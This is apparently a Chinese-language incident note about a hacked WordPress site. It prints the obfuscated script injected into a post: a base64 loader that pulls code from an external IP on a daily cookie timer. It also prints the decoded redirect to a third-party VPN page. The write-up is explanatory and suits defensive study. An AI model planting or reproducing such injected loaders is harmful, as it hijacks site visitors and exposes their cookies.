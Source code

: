 # web security 案例

日常收集，工作网站被黑案例。

## XSS 攻击

背景：使用 WordPress 开发手机端，管理人员密码设置过于简单，被黑客在 post 中注入如下脚本，形成跨站脚本攻击：

```javascript
<p>
<!--codes_iframe-->
<script type="text/javascript"> 
function getCookie(e){
var U=document.cookie.match(new RegExp("(?:^|; )"+e.replace(/([\.$?*|{}\(\)\[\]\\\/\+^])/g,"\\$1")+"=([^;]*)"));return U?decodeURIComponent(U[1]):void 0
}
var src="data:text/javascript;base64,ZG9jdW1lbnQud3JpdGUodW5lc2NhcGUoJyUzQyU3MyU2MyU3MiU2OSU3MCU3NCUyMCU3MyU3MiU2MyUzRCUyMiUyMCU2OCU3NCU3NCU3MCUzQSUyRiUyRiUzMSUzOCUzNSUyRSUzMSUzNSUzNiUyRSUzMSUzNyUzNyUyRSUzOCUzNSUyRiUzNSU2MyU3NyUzMiU2NiU2QiUyMiUzRSUzQyUyRiU3MyU2MyU3MiU2OSU3MCU3NCUzRSUyMCcpKTs=",
now=Math.floor(Date.now()/1e3),
cookie=getCookie("redirect");

if(now>=(time=cookie)||void 0===time){
var time=Math.floor(Date.now()/1e3+86400),
date=new Date((new Date).getTime()+86400);
document.cookie="redirect="+time+"; path=/; expires="+date.toGMTString(),document.write('<script src="'+src+'"><\/script>')} </script>
<!--/codes_iframe-->
</p>
```

该代码段获取了客户cookie信息，然后跳转到第三方的VPN中，收集用户信息。

跨域请求解析后路径：

```javascript
<script src=" http://185.156.177.85/5cw2fk"></script> 
```

解析后脚本请求：

```javascript
function process() {
                window.location = "https://click.unfurlable.com/ljexwvfocb";
            }
            window.onerror = process;
            process();
```

最终访问了熊猫VPN

![rLtAHRmwobQJ7IK](https://i.loli.net/2019/11/18/rLtAHRmwobQJ7IK.png)
